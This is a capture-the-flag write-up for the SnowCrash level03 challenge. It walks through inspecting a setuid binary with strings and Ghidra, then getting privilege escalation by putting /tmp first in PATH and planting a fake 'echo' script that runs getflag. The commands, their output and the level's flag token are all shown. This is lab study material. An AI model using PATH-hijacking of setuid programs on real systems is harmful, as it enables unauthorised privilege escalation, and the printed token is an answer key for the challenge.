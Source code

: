# level03
_The ritual_ :
- `pwd`: `/home/user/level03`
- `id`: `uid=2003(level03) gid=2003(level03) groups=2003(level03),100(users)`
- `ls -la`:
```sh
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
```
- `find / -user flag02 2> /dev/null`: **A LOT OF USELESS THINGS**
It show all the `/proc` folder.

_Oh... A binary file... **RUN IT**_
```sh
level03@SnowCrash:~$ ./level03
Exploit me
level03@SnowCrash:~$
```
_Okay let's exploit you !_
- A binary file can't be read by a human, but there is some hint in it anyway, and the command `strings` isolate them :
```sh
level03@SnowCrash:~$ strings level03
/lib/ld-linux.so.2
KT{K
__gmon_start__
libc.so.6
_IO_stdin_used
setresgid
setresuid
system
getegid
geteuid
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
/usr/bin/env echo Exploit me
;*2$"
GCC: (Ubuntu/Linaro 4.6.3-1ubuntu5) 4.6.3
/home/user/level03
/usr/include/i386-linux-gnu/bits
/usr/include/i386-linux-gnu/sys
level03.c
types.h
types.h
long long int
__uid_t
envp
/home/user/level03/level03.c
long long unsigned int
setresuid
setresgid
unsigned char
GNU C 4.6.3
argc
__gid_t
short unsigned int
main
short int
argv
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rel.dyn
.rel.plt
.init
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.ctors
.dtors
.jcr
.dynamic
.got
.got.plt
.data
.bss
.comment
.debug_aranges
.debug_info
.debug_abbrev
.debug_line
.debug_str
.debug_loc
crtstuff.c
__CTOR_LIST__
__DTOR_LIST__
__JCR_LIST__
__do_global_dtors_aux
completed.6159
dtor_idx.6161
frame_dummy
__CTOR_END__
__FRAME_END__
__JCR_END__
__do_global_ctors_aux
level03.c
__init_array_end
_DYNAMIC
__init_array_start
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
setresuid@@GLIBC_2.0
__i686.get_pc_thunk.bx
data_start
_edata
_fini
geteuid@@GLIBC_2.0
getegid@@GLIBC_2.0
__DTOR_END__
__data_start
system@@GLIBC_2.0
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_start_main@@GLIBC_2.0
__libc_csu_init
_end
_start
_fp_hw
__bss_start
main
_Jv_RegisterClasses
setresgid@@GLIBC_2.0
_init
level03@SnowCrash:~$
```

- Okay, we can see these lines : `system` - `/usr/bin/env echo Exploit me`
-> In the binary we can see all function used and there arguments
- `system` execute a command line the terminal
- `/usr/bin/env echo Exploit me` can be how the output is execut.

_I think it's time to discover how to decompile a file_
- Let's install [ghidra](https://ghidra-sre.org/)

**OKAY, the file is decompiled** :
![decompiled](../../assets/decompiled.png)
## YES ! I had just !

_So, what I have supposed to do now ?_

- We can "intercept" the command `echo` by adding a folder in the `PATH`, but wich one ? A folder for which I have the rights... **`/tmp`** ?
```sh
level03@SnowCrash:~$ export PATH="/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
```
If I create a file named "echo" in `/tmp` with a command in it, what happened ?
```sh
level03@SnowCrash:~$ echo "ls" > /tmp/echo
level03@SnowCrash:~$ ./level03
Exploit me
level03@SnowCrash:~$
```
- Nothing happened... maybe the file has not the good permissions ?
```sh
level03@SnowCrash:~$ chmod 777 /tmp/echo
```
- Let's try again :
```sh
level03@SnowCrash:~$ ./level03
ls: cannot open directory .: Permission denied
level03@SnowCrash:~$
```
### SUCCESS, SOMETHING HAPPENED
_What we can do to this program ?... Which command can help us to complet this level ??? Mmmmhhhh..._
```sh
level03@SnowCrash:~$ echo "getflag" > /tmp/echo
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$
```
# YEEEEEEEESSS
Let's login to `level04` directly :
```sh
level03@SnowCrash:~$ su level04
Password:
level04@SnowCrash:~$
```
# level03 complet !
![yeah](../../assets/yeah.gif)